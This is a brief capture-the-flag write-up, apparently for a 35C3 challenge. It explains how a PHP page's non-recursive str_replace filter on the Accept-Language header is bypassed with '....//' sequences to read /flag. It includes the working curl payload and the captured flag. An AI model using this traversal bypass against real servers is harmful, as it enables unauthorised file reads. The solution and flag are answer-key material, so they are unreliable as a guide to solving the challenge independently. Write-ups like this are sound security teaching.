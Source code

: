 # Description
Welcome to fun with flags.

Flag is at /flag

## Solution
* we can see the php source code
* it uses `str_replace` to ""escape"" the header and prevent path traversal
* `str_replace` doesn't recursively replace the source string so it's easily bypassed
## Payload
```
curl 'http://localhost:1235/' -H 'Accept-Language: ....//....//....//....//flag'
```
* base64 encoded flag is then returned
## Flag
```
35c3_this_flag_is_the_be5t_fl4g
```
